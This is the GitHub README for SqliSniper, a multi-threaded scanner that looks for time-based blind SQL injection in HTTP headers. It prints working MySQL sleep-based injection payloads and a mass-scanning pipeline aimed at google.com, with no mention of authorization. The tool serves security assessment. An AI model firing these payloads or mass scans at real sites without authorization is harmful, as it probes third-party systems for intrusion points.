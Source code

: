 # SqliSniper
**SqliSniper** is a robust Python tool designed to detect time-based blind SQL injections in HTTP request headers. It enhances the security assessment process by rapidly scanning and identifying potential vulnerabilities using advanced multi-threaded techniques.

## Key Features
- **Time-Based Blind SQL Injection Detection:** Pinpoints potential SQL injection vulnerabilities in HTTP headers.
- **Multi-Threaded Scanning:** Offers faster scanning capabilities through concurrent processing.
- **Discord Notifications:** Sends alerts via Discord webhook for detected vulnerabilities.
- **False Positive Checks:** Implements response time analysis to differentiate between true positives and false alarms.
- **Custom Payload and Headers Support:** Allows users to define custom payloads and headers for targeted scanning.


## Installation
```
git clone https://github.com/danialhalo/SqliSniper.git
cd SQLSniper
chmod +x sqlisniper.py
pip3 install -r requirements.txt
```
# Usage:

This will display help for the tool. Here are all the options it supports.
```
ubuntu:~/sqlisniper$ ./sqlisniper.py -h


███████╗ ██████╗ ██╗     ██╗    ███████╗███╗   ██╗██╗██████╗ ███████╗██████╗
██╔════╝██╔═══██╗██║     ██║    ██╔════╝████╗  ██║██║██╔══██╗██╔════╝██╔══██╗
███████╗██║   ██║██║     ██║    ███████╗██╔██╗ ██║██║██████╔╝█████╗  ██████╔╝
╚════██║██║▄▄ ██║██║     ██║    ╚════██║██║╚██╗██║██║██╔═══╝ ██╔══╝  ██╔══██╗
███████║╚██████╔╝███████╗██║    ███████║██║ ╚████║██║██║     ███████╗██║  ██║
╚══════╝ ╚══▀▀═╝ ╚══════╝╚═╝    ╚══════╝╚═╝  ╚═══╝╚═╝╚═╝     ╚══════╝╚═╝  ╚═╝

                            -: By Muhammad Danial :-

usage: sqlisniper.py [-h] [-u URL] [-r URLS_FILE] [-p] [--proxy PROXY] [--payload PAYLOAD] [--single-payload SINGLE_PAYLOAD] [--discord DISCORD] [--headers HEADERS]
                     [--threads THREADS]

Detect SQL injection by sending malicious queries

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Single URL for the target
  -r URLS_FILE, --urls_file URLS_FILE
                        File containing a list of URLs
  -p, --pipeline        Read from pipeline
  --proxy PROXY         Proxy for intercepting requests (e.g., http://127.0.0.1:8080)
  --payload PAYLOAD     File containing malicious payloads (default is payloads.txt)
  --single-payload SINGLE_PAYLOAD
                        Single payload for testing
  --discord DISCORD     Discord Webhook URL
  --headers HEADERS     File containing headers (default is headers.txt)
  --threads THREADS     Number of threads
```

# Running SQliSniper
### Single Url Scan
The url can be provided with `-u flag` for single site scan
```
./sqlisniper.py -u http://example.com
```
### File Input
This will run the tool with the `-r flag` against all the urls in urls.txt.
```
./sqlisniper.py -r url.txt
```
### Pipeline
The SqliSniper can also worked with the pipeline input with `-p flag`
```
cat url.txt | ./sqlisniper.py -p
```
This is helpful when integrating with other tools. For example we can use the subfinder , httpx and then pipe the output to SqliSniper for mass scanning
```
subfinder -silent -d google.com | sort -u | httpx -silent | ./sqlisniper.py -p
```
### Scanning with custom payloads  
By default the SqliSniper use the payloads.txt file. However `--payload flag` can be used for providing custom payloads file.
```
./sqlisniper.py -u http://example.com --payload mssql_payloads.txt
```
While using the custom payloads file, ensure that you substitute the sleep time with `%__TIME_OUT__%`. SqliSniper dynamically adjusts the sleep time iteratively to mitigate potential false positives.
The payloads file should look like this.
```
ubuntu:~/sqlisniper$ cat payloads.txt 
0\"XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR\"Z
"0"XOR(if(now()=sysdate()%2Csleep(%__TIME_OUT__%)%2C0))XOR"Z"
0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z
```
### Scanning with single payloads
If you want to only test with the single payload `--single-payload flag` can be used. Make sure to replace the sleep time with `%__TIME_OUT__%`
```
./sqlisniper.py -r url.txt --single-payload "0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z"
```
### Scanning Custom Header 
Headers are saved in the file headers.txt for scanning custom header save the custom HTTP Request Header in headers.txt file. 
```
ubuntu:~/sqlisniper$ cat headers.txt 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
X-Forwarded-For: 127.0.0.1
```
### Sending Discord Alert Notifications v
SqliSniper also offers Discord alert notifications, enhancing its functionality by providing real-time alerts through Discord webhooks. This feature proves invaluable during large-scale scans, allowing prompt notifications upon detection.
```
./sqlisniper.py -r url.txt --discord <web_hookurl>
```
### Multi-Threading 
Threads can be defined with `--threads flag`
```
 ./sqlisniper.py -r url.txt --threads 10
```
**Note:**It is crucial to consider that **employing a higher number of threads might lead to potential false positives or overlooking valid issues**. Due to the nature of time-based SQL injection it is recommended to use lower thread for more accurate detection.

